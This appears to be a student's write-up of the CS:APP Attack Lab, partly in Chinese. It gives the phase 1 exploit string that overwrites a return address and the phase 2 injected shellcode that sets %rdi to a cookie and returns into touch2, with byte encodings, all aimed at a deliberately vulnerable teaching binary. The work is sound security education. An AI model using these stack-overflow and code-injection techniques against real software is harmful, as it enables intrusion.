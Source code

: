         level1.txt
        00 00 00 00 00 00 00 00
        00 00 00 00 00 00 00 00
        00 00 00 00 00 00 00 00
        00 00 00 00 00 00 00 00
        00 00 00 00 00 00 00 00
        c0 17 40 00 00 00 00 00

        ./hex2raw -i level1.txt | ./ctarget -q

2. phase2

    > Phase 2 involves injecting a small amount of code as part of your exploit string.
Within the file ctarget there is code for a function touch2 having the following C representation:

        void touch2(unsigned val)
        {
            vlevel = 2; /* Part of validation protocol */
            if (val == cookie) {
            printf("Touch2!: You called touch2(0x%.8x)\n", val);
            validate(2);
            } else {
            printf("Misfire: You called touch2(0x%.8x)\n", val);
            fail(2);
            }
            exit(0);
        }
   > Your task is to get CTARGET to execute the code for touch2 rather than returning to test. In this case,however, you must make it appear to touch2 as if you have passed your cookie as its argument.

   > Some Advice:
    • You will want to position a byte representation of the address of your injected code in such a way that ret instruction at the end of the code for getbuf will transfer control to it.
    • Recall that the first argument to a function is passed in register %rdi.
    • Your injected code should set the register to your cookie, and then use a ret instruction to transfer control to the first instruction in touch2.
    • Do not attempt to use jmp or call instructions in your exploit code. The encodings of destination addresses for these instructions are difficult to formulate. Use ret instructions for all transfers of control, even when you are not returning from a call.
    • See the discussion in Appendix B on how to use tools to generate the byte-level representations of instruction sequences.

        00000000004017ec <touch2>:
        4017ec:	48 83 ec 08          	sub    $0x8,%rsp
        ...

    > touch2地址：0x4017ec
    > 将cookie：0x59b997fa保存到rdi

          注入代码：
          lea $0x59b997fa %rdi
          push $0x4017ec
          ret

          0000000000000000 <.text>:
          0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi // cooki in %rdi
          7:	68 ec 17 40 00       	pushq  $0x4017ec //touch2 地址
          c:	c3                   	retq  
